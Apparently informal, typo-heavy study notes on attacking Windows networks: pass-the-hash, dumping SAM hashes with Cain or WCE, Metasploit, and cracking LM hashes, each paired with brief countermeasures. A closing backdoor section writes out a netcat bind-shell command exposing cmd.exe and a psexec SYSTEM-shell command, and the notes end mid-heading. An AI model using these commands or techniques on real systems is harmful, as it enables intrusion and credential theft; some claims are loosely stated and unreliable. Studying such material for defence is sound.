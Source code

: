 ```nslookup, ls -d, <domain name>```; or dig  
Send a preauthentication packet which contains a timestamps encrypted with a key derived from the user's password. An offline attack can on that exchange can reveal a weak password 

### authentication sniffing countermeasures
Disable LM authentication. NT LAN manager (NTLM) hashes are harder to crack. Pick good passwords. Use public key encryption. Use built-in windows IPsec to authenticate and encrypt password.

### MITM Countermeasure
If attacker alredy in your lan, very hard. Use authenticated and encrypted protocols,  enforce them with group policy and firewall rules, verify identity os remote server with strong authentication or trusted third parties.

### Pass-the-hash
1. Compromise a machine
1. Dump password hashes stored in **RAM**
1.Use them as credentials for network services whitout cracking them.  
This allow to **compromise a network** after compromising a single machine. **Administrator** loged in the machine before also taken.  
**HOW?**  
**Windows Credential Editor** (WCE)-> dump in-memory username, domain, LM & NTLM hashes. Is a single esecutable (wce.exe) very easy. Support Windows: XP, 2003, vista, 7, 2008. Password are encrypted but **keys are stored in RAM**. Dump existing Kerberos RAM tickets and reuse them. WCE can reply and re-use tickets, but you must compromise a host first.

### Pass-the-hash countermeasures
NTLM vulnerable by design; no countermeasures. **Prevent intrusion first**, if possible two factor authentication.

### Remote unauthencicated expoit (METASPLOIT)
... no comment ...
### Metasploit countermeasures 
Apply patch quickly, audit, log and monitor traffic.

### Device driver exploit.
METASPLOIT but more fun (hight prov mode by driver).


## Authenticated attacks
Privilege escalation (SISTEM is MORE powerful os ADMIN account). Preventing Privilege escalation Keep Win machines patched. **Extracting and cracking passwords** after obltained win machines -> penetrate deeper into the network-> paswordssss (post exploitation disable firewall).

### Grabbing Password Hashesssssss
Local user in windows security accounts manager (SAM) under NT4 and earlier. SAM == SHADOW files for windows.  
Stored in ```%systemroot%\system32\config\SAM``` but **it's locked as long as the OS is running**. It's also in the Registry key ```HKEY_LOCAL_MACHINE\SAM```. How to get hashes? Easy, use **CAIN** (cracker tab-> right click-> add to list). **Cain inject a DLL (shared libraries) into a hight privilege process** in a running system. Other way to get the hashes, boot target system to an alternate OS and copy SAM file. 

### Cracking hash
NTLM hard to break but earlier version (XP an before) still use LM (wheak). **Windows doesn't salt its hash!** pffff. So speed up password cracking with raimbow tables

### Backdoors

```psexec \\10.1.1.1 -u Administrator -password -s cmd.exe  ```
or  
```nc -l -e cmd.exe -p 8080 #ez rekt ``` 
```telnet <ip> 8080 # attacker  ```
 
 ### hide file
```